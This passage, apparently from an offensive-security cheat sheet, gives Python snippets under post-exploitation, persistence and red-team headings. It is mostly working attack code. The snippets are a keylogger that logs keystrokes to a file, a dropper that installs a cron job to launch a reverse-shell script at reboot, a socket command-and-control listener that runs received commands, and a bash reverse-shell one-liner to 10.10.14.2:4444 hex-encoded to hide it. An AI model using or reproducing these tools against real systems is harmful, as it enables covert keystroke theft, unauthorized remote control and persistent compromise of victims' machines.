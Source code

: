 ***

### V. 🧨 Post-Exploitation & Persistence

#### 🧩 Keylogger

```python
from pynput import keyboard

def on_press(key):
    with open("log.txt", "a") as f:
        f.write(str(key) + "\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

#### 🧠 Persistence Dropper

```python
import os
os.system('echo "@reboot python3 /tmp/revshell.py" | crontab -')
```

***

### VI. 🧰 Advanced Red Team Use-Cases

#### 🧩 Building a Simple C2 Listener

```python
import socket,subprocess

HOST = '0.0.0.0'
PORT = 4444
s = socket.socket()
s.bind((HOST, PORT))
s.listen(1)
conn, addr = s.accept()
print(f"[+] Connection from {addr}")

while True:
    cmd = conn.recv(1024).decode()
    if cmd == 'exit':
        break
    output = subprocess.getoutput(cmd)
    conn.send(output.encode())
```

#### 🧠 Payload Encoding

```python
payload = 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'
print(payload.encode('utf-8').hex())
```
